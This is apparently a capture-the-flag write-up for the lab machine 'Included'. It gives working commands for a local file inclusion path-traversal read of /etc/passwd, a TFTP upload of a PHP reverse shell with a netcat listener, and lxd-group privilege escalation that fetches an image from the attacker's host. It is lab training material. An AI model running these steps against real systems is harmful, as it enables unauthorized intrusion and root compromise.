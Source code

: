 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

![alt text](./img/included.PNG?raw=true)  

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.55 -e tun0 --rate=1000  
![alt text](./img/included01.PNG?raw=true)  

Ok, the url look’s vulnerable to LFI. So let's test it  
![alt text](./img/included02.PNG?raw=true)  
  
![alt text](./img/included03.PNG?raw=true)  

BINGO!

## Exploit  
Let’s use curl to get a clean view of the files  
curl -v http://10.10.10.55/?file=../../../../../../../../../../../../etc/passwd  
![alt text](./img/included04.PNG?raw=true)  

curl -s -v http://10.10.10.55/?file=../../../../../../../../../../../../../../etc/issue  
![alt text](./img/included05.PNG?raw=true)  

curl -s -v http://10.10.10.55/?file=../../../../../../../../../../../../../../proc/version  
![alt text](./img/included06.PNG?raw=true)  

In the passwd we could see a user TFTP, maybe this service is active. Let’s try to connect to it and put a file in the server  
![alt text](./img/included07.PNG?raw=true)  

Perfect, create a php reverse shell page and upload it to the target.  
You can search the web for one or use the /usr/share/webshells/php/php-reverse-shell.php file, don’t forget to change de $ip and $port to yours

After upload it set up a netcat listener in the port you put in the file and let’s access the uploaded file.  
In the passwd we can see that the path of the tftp user is /var/lib/tftpboot, so the file is in this folder  
http://10.10.10.55/?file=../../../../../../../../../../../var/lib/tftpboot/shell-eldruin.php  
![alt text](./img/included08.PNG?raw=true)  

HABEMUS SHELL \o/\

## Privesc  
Run this command to get a better shell -> python3 -c 'import pty;pty.spawn("/bin/bash")'

We are logged as www-data and we don’t have permission to read the user.txt (inside mike’s folder). So let’s try to privesc  
![alt text](./img/included09.PNG?raw=true)  

Since this is a continuation of the PATHFINDER machine, let’s try to log as mike with the password found on that machine  
![alt text](./img/included10.PNG?raw=true)  

Now we can get back to mike’s home directory and read the flag. Time to root…..

Mike is in the lxd group, so we can try to use the lxd-alpine to get root  
![alt text](./img/included11.PNG?raw=true)  

Just execute the commands in the followed order and you will get root:  
For a better explanation check this [link](https://www.hackingarticles.in/lxd-privilege-escalation/)  
> In your machine:  
git clone  https://github.com/saghul/lxd-alpine-builder.git  
cd lxd-alpine-builder  
./build-alpine  
sudo python3 -m http.server 80  

> On target machine  
cd /tmp  
wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz  
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage  
lxc image list  
lxc init myimage ignite -c security.privileged=true  
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true  
lxc start ignite  
lxc exec ignite /bin/sh  
id  

![alt text](./img/included12.PNG?raw=true)  
  
It’s a little ugly, but is a root shell

To catch the flag just go to /mnt/root/root 
![alt text](./img/included13.PNG?raw=true)  

## Discoveries
As you could see there is a login.sql and inside we have another credential  
![alt text](./img/included14.PNG?raw=true)  

